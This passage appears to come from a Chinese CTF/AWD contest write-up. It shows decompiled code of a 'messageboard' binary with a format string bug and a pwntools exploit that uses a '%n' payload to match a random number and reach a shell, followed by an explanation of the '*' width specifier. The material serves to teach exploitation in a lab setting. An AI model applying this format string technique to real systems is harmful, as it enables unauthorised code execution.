 ```cpp
  v5 = command;
  v6 = (__int64 (__fastcall *)(_QWORD, _QWORD))((char *)getshell + 317);
  readline((__int64)nptr, 0x18u);
  fd = open("/dev/random", 0);
  read(fd, &v3, 2uLL);
  read(fd, (char *)&v3 + 8, 2uLL);
  v2 = atoi(nptr);
  v4 = &v2;
  sleep(1u);
  printf("you guess ", (char *)&v3 + 8);
  printf(nptr);
  printf(" the answer is %lld \n", (_QWORD)v3 + *((_QWORD *)&v3 + 1));
  if ( *v4 != (_QWORD)v3 + *((_QWORD *)&v3 + 1) )
  {
    puts("GG!");
    exit(0);
  }
  system(command);
  return __readfsqword(0x28u) ^ v7;
}
```

可以看到这里让我们猜测一个系统产生的随机数，猜对了就能 getshell。再来看看 pizza 的 exp：

```python
from pwn import *
p = process('./messageboard')
p.recvuntil('choice >>')
p.sendline('4')
p.recvuntil('guess a number:')
payload = '%2$*11$s%2$*12$s%13$n'
p.sendline(payload)
p.interactive()
```

关于 `*`：宽度与精度格式化参数可以忽略，或者直接指定，或者用星号 `*` 表示取对应函数参数的值。例如 `printf("%*d", 5, 10)` 输出 `10`；`printf("%.*s", 3, "abcdef")` 输出 `abc`。

由此可知，第十一位和第十二位参数上存放的是随机数，第十三位则是我们的输入，这里将随机数的值写入我们的输入，达到 getshell 的目的。

堆的做法以后再来复现。

# 总结

比赛打下来，发现实力是重要的一部分，同时经验、技巧（猥琐发育）以及运气都是重要的因素。希望下次有更多的机会参与线下 AWD 比赛。

# 参考网站

https://www.jianshu.com/p/b8e448951125
https://zh.wikipedia.org/wiki/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2
